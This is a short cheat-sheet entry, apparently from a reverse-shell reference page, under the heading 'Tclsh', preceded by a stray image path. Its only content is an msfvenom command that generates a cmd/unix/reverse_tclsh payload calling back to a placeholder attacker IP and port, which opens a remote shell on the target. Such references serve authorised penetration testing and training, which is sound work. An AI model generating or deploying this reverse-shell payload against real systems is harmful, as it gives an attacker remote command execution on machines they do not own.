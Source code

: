 # Tclsh

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_tclsh lhost=<IP> lport=<PORT>
```